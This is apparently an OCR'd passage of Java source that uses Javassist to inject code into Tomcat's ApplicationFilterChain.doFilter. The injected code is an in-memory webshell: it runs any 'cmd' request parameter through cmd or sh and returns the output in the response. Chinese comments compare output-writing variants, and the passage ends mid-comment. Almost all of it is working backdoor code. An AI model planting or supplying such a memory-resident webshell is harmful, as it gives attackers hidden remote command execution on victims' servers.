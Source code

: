 ```java.lang.UnsatisfiedLinkError: sun.tools.attach.LinuxVirtualMachine.isLinuxThreads()Z```
	                ClassPool pool = ClassPool.getDefault();
	                try {
	                    CtClass c = pool.getCtClass(className);
	                    CtMethod m = c.getDeclaredMethod("doFilter");
	                    // 如果服务端没有 javassist.jar 会是NULL 不会打印值
	                    //System.out.println(c); // for debug // print : javassist.CtClassType@697a3904[public final class org.apache.catalina.core.ApplicationFilterChain implements javax.servlet.FilterChain...
	                    //System.out.println(m); // for debug // print : javassist.CtMethod@8fc543ac[public doFilter (Ljavax/servlet/ServletRequest;Ljavax/servlet/ServletResponse;)V]
	
	                    m.insertBefore("javax.servlet.http.HttpServletRequest req =  request;\n" +
	                            "javax.servlet.http.HttpServletResponse res = response;\n" +
	                            "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
	                            "if (cmd != null){\n" +
	                            "java.io.InputStream in = null;\n" +
	                            "java.lang.String osname = java.lang.System.getProperty(\"os.name\").toLowerCase();\n" +
	                            "if (osname.contains(\"win\")) {" +
	                            "    try {\n" +
	                            "         in = Runtime.getRuntime().exec(new String[]{\"cmd\", \"/c\", cmd}).getInputStream();\n" +
	                            "    }catch (Exception e){}\n" +
	                            "} else {\n" +
	                            "    try {\n" +
	                            "        in = Runtime.getRuntime().exec(new String[]{\"sh\", \"-c\", cmd}).getInputStream();\n" +
	                            "    }catch (Exception e){}\n" +
	                            "}\n" +
	                            "java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
	                            "try {\n" +
	                            // 方法一： 完美!!! 通过close() 使输出一遍
	                            "java.lang.String line;\n" +
	                            "java.io.PrintWriter writer = res.getWriter();\n" +
	                            "while ((line = reader.readLine()) != null) {\n" +
	                            "writer.write(line+\"\\r\\n\");}\n" +
	                            "writer.flush();\n" +
	                            "writer.close();\n" +  // 输出流关闭操作放到循环外层
	
	                            /*
	                             方法二：
	                             会输出5遍，具体原因可能与 ApplicationFilterChain 默认的几条链有关，没做深入研究...
	                            //"java.io.PrintWriter writer=res.getWriter();\n" +
	                            //"writer.print(reader.lines().collect(java.util.stream.Collectors.joining(\"\\n\")));\n" +
	                             */
	
	                            /*
	                            方法三：
	                            sevlet里面可以，在agent.jar里注入这种写法不行，原因未知
	                            //"java.io.PrintWriter writer=res.getWriter();\n" +
	                            //"writer.write(reader.lines().collect(java.util.stream.Collectors.joining(\"\\n\")));\n" +   //writer.write() 报错,  javassist.CannotCompileException: [source error] write(java.lang.Object) not found in java.io.PrintWriter
	                             */
	
	                            /*
	                            方法四：
	                            兼容性不好，中文不友好  java.io.CharConversionException: Not an ISO 8859-1 character: [�]
	                            //"((java.io.PrintWriter)res.getWriter()).write(reader.lines().collect(java.util.stream.Collectors.joining(\"\\n\")));\n" +
```